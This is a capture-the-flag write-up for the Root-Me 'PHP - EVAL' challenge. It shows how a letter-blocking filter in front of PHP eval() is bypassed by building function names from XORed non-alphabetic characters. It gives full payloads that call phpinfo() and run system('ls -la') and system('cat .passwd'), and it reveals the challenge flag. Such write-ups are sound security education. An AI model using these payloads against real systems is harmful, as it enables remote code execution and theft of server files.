 ```yaml
---
title: "Advanced Filter Bypass | PHP - EVAL Rootme"
date: 2024-04-17
categories: [Web Security, PHP - EVAL]
tags: [Web Challenges, CTF] 
---
```



Hello, In this Writeup, I will explain methods for executing non-alphabetical PHP code to bypass PHP filters in [PHP - EVAL](https://www.root-me.org/fr/Challenges/Web-Serveur/PHP-Eval) challenge.

## Challenge Source Code Analysis.
```php
<head>
</head>
<body>
 
<h4> PHP Calc </h4>
 
<form action='index.php' method='post'>
    <input type='text' id='input' name='input' />
    <input type='submit' />
<?php
 
if (isset($_POST['input'])) {
    if(!preg_match('/[a-zA-Z`]/', $_POST['input'])){
        print '<fieldset><legend>Result</legend>';
        eval('print '.$_POST['input'].";");
        print '</fieldset>';
    }
    else
        echo "<p>Dangerous code detected</p>";
}
?>
</form>
</body>
</html>

```

The PHP script first checks whether a POST parameter named `input` is present. If the input does not contain letters or backticks, it is evaluated as PHP code using eval(), with the result printed on the screen. However, if letters or backticks are detected, the script issues a warning: "Dangerous code."

## Spotting the bug.
After some research on Google, I discovered a method to bypass this filter, which is **Bypass using Non-alphabetical Character Encoding.** Let's discuss it, and we can use [onlinegdb](https://www.onlinegdb.com/) to test and run PHP code easily and quickly. In PHP, we can use the XOR operator between characters (not just numbers) to generate a different character.

![img_screenshot](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/c1b4322b-f443-47b2-8b02-fab5c3e1f748)

## Manuel Exploiting.
So, here's the idea behind our attack: what if we could reproduce an alphabetical character by xoring two non-alphabetical characters? How can we achieve this?

The XOR operator works like this: When you XOR any two numbers, it produces a result. If you XOR this result with one of the original numbers, you'll get the third number.

For example, let's say we want to produce the character s by XORing two unknown characters.

Steps to perform the attack:
- Get the ASCII decimal value of the letter **s**, which is 115, using the ord() function in Python.

- Select a random non-alphabetical character, such as **@**, and get its ASCII decimal value, which is 64.

- XOR these two decimal values and convert the result into a character using the chr() function in Python.

- Check if the resulting character is alphabetical. The goal is to ensure the character is non-alphabetical, so it can bypass the filter.

- Finally, XOR the random non-alphabetical character with the number obtained from the XOR operation, which will give us the letter we need.


![img_screenshot1](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/734892cd-9efc-4dd0-b1c7-ea3e436aadb7)

I can now try this payload in our challenge website:  `"@"^"3"`

![img_screenshot2](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/66e4baa4-2430-46c6-a9e2-5ffd554a6857)

## Automated Exploitation.
Nice, we can now automate this process using python, I write a simple python script to automate this task which 
is [php-non-alphabetical-Encoder](https://github.com/0XMohomiester/PHP-Non-Alphabetical-Encoder.git)

we can now use it to generate `phpinfo` word to execute `phpinfo()` in the server.

```python
python3 php-non-alpha-encoder.py phpinfo
("+"^"[").("("^"@").("+"^"[").(")"^"@").("."^"@").("&"^"@").("/"^"@")
```
**How can we call this payload as a function?**

In PHP, if we declare `$__` as a variable and store the generated string from the tool in it, we can call it as `$__();` to execute it as a PHP function. We can use it like this:
```php
$__ = ("+"^"[").("("^"@").("+"^"[").(")"^"@").("."^"@").("&"^"@").("/"^"@");
$__();
```

![img_screenshot3](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/36cbf8b5-d666-4f00-8797-3c03e61e01c5)

we can use payload like this:  `system("ls -la")` to run system commands

```php
$_1 = (","^"@").("("^"[");
$_2 = "-"; 
$_3 = (","^"@").("!"^"@"); 
$__ = ("("^"[").("$"^"]").("("^"[").(")"^"]").("%"^"@").("-"^"@");  
$__($_1 . " " . $_2 . $_3);
```

Good, Command executed and flag inside `.passwd` file. 

![img_screenshot4](https://github.com/0XMohomiester/Cyborg_Cybertalents/assets/47929033/4555d2f6-6ab0-472d-9f54-552cfa6a62ff)


We can now generate payload like : `system("cat .passwd")` to get the flag.

```php
$_1 = ("#"^"@").("!"^"@").(")"^"]");
$_2 = ("+"^"[").("!"^"@").("("^"[").("("^"[").("("^"_").("$"^"@");
$__ = ("("^"[").("$"^"]").("("^"[").(")"^"]").("%"^"@").("-"^"@");
$__($_1 . " " . "." . $_2);
```
and Finally here is our flag : `M!xIng_PHP_w1th_3v4l_L0L`

![img_screenshot5](https://github.com/0XMohomiester/Cyborg_Cybertalents/assets/47929033/6ad9a53d-60af-4421-836b-6a9dc2be8e77)


Thanks for reading.

Follow me on [Linkedin](https://www.linkedin.com/in/0xmohomiester/)
